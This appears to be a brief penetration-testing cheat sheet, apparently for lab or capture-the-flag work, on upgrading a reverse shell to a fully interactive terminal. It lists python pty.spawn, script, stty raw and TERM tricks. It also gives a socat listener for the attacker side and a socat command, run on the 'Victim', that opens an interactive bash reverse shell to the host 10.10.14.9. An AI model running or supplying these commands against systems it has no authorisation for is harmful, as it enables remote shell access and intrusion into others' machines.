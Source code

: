 
`script -qc /bin/bash /dev/null`

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
or `python -c 'import pty;pty.spawn("/bin/bash")'` if ooold python

Ctrl+z
`stty raw -echo; fg` (ctrl+c and other special chars sent + turning of echo)
`export TERM=xterm`



Instead of a simple nc, use this (= starting with a better shell instead):

On Kali (listen):
`socat file:tty,raw,echo=0 tcp-listen:444`

On Victim (launch):
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.9:444`
